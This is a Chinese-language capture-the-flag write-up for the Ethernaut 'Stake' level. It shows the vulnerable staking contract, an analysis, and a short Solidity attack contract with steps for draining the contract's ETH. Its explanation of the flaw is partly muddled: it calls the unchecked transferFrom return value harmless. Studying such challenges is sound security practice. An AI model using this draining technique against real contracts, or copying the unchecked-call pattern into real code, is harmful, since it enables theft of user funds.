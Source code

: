 ## Level_31.Stake

要求：

> 排空合约中的余额；

合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Stake {

    uint256 public totalStaked;
    mapping(address => uint256) public UserStake;
    mapping(address => bool) public Stakers;
    address public WETH;

    constructor(address _weth) payable{
        totalStaked += msg.value;
        WETH = _weth;
    }

    function StakeETH() public payable {
        require(msg.value > 0.001 ether, "Don't be cheap");
        totalStaked += msg.value;
        UserStake[msg.sender] += msg.value;
        Stakers[msg.sender] = true;
    }
    function StakeWETH(uint256 amount) public returns (bool){
        require(amount >  0.001 ether, "Don't be cheap");
        (,bytes memory allowance) = WETH.call(abi.encodeWithSelector(0xdd62ed3e, msg.sender,address(this)));
        require(bytesToUint(allowance) >= amount,"How am I moving the funds honey?");
        totalStaked += amount;
        UserStake[msg.sender] += amount;
        (bool transfered, ) = WETH.call(abi.encodeWithSelector(0x23b872dd, msg.sender,address(this),amount));
        Stakers[msg.sender] = true;
        return transfered;
    }

    function Unstake(uint256 amount) public returns (bool){
        require(UserStake[msg.sender] >= amount,"Don't be greedy");
        UserStake[msg.sender] -= amount;
        totalStaked -= amount;
        (bool success, ) = payable(msg.sender).call{value : amount}("");
        return success;
    }
    function bytesToUint(bytes memory data) internal pure returns (uint256) {
        require(data.length >= 32, "Data length must be at least 32 bytes");
        uint256 result;
        assembly {
            result := mload(add(data, 0x20))
        }
        return result;
    }
}
```

#### 分析

这是一个质押合约，其中可以质押ETH和一个与ETH等价1:1的ERC20代币WETH，我们需要将其中所有余额排空；

同时还需要满足：

> * 质押合约中ETH余额需要大于0；
> * 总的质押数需要大于合约余额；
> * 成为质押者且余额为0；

` StakeETH() `函数中，没什么大问题；

` StakeWETH() `函数中，需要质押数额大于0.001ether，随后调用` 0xdd62ed3e `即` allowance(address,address) `查看授予的余额，但此处只接收了额度，但没有接收是否正确执行；随后调用` 0x23b872dd `即` transferFrom(addressA,addressB,uint256) `转账，扣的是` allowance[msg.sender] `中的值，实际是A转给B，这边貌似也没什么问题；

` Unstake() `函数中，将WETH和ETH混为一谈，只要用户有质押，就可以取ETH或者WETH，那么我们就可以质押WETH，然后换成ETH全部取出来；

所以我们需要做的就是：

1. 写一个攻击合约，利用其给题目合约授权尽可能多的` WETH `，并质押1` WETH `，同时质押0.0011` ETH `（模拟真实环境中受害者）；
2. 用自己的账户授权WETH，然后质押0.0011WETH；
3. 取回质押的ETH；



#### 攻击

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
import "./Ethernaut.sol";

contract Exp {
    Stake stake;
    address public WETH;

    constructor(address _stake, address _weth){
        stake = Stake(_stake);
        WETH = _weth;
    }

    function VictimStake() public payable {
        // 授权WETH
        (bool success, ) = address(WETH).call(abi.encodeWithSignature("approve(address,uint256)", address(stake), 100 ether));
        // 质押WETH
        stake.StakeWETH(1 ether);
        // 质押ETH
        stake.StakeETH{value:0.0011 ether}();
    }
}
```

获得WETH合约的地址：

![image-20250228225306468](./assets/image-20250228225306468.png)

使用Exp合约授权、质押1WETH和0.0011ETH：

![image-20250228230418918](./assets/image-20250228230418918.png)

![image-20250228230536928](./assets/image-20250228230536928.png)

用自己钱包给合约授权，质押0.0011WETH，并取出余额：

![image-20250228230826428](./assets/image-20250228230826428.png)

![image-20250228230934865](./assets/image-20250228230934865.png)

此时发现题目没过关，重新审查题目，需要合约ETH余额大于0，只需修改Exp合约，质押0.0011ETH改为0.0012就行，留最后0.0001在上面即可；

![image-20250228232533333](./assets/image-20250228232533333.png)

